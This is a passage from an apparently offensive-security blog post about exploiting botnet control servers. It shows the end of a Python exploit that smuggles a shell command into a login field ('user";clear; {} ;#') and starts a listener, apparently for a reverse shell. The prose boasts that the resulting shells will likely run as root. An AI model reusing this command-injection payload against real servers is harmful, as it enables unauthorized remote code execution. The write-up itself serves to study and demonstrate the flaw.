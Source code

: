 ```python
	print("Sending the payload.")
	sock.send(bytes('user";clear; {} ;# \r\n'.format(CMD),"utf-8"))
	
	sock.send(bytes('Press F to pay respects.\r\n',"utf-8"))
	sleep(1)
	
	t = threading.Thread(target=Listen, args=(int(sys.argv[4]),))
	t.start()

except Exception as err:
	exit(str(err))
```

Now we can execute the exploit against a botnet server! If successful, it should all look something like this:

![Alt Text](/img/blog/pwn-hacking-botnets/exploit_rce.gif)

Cool, right? Although when configured properly on a proper port, the botnet won't run as root. **But** with the default root user on various hosting providers and the fact that our skiddies copy paste commands without knowing what they do, I bet most of your shells be will *root*. 

<img src="/img/blog/pwn-hacking-botnets/wedidit.jpg">
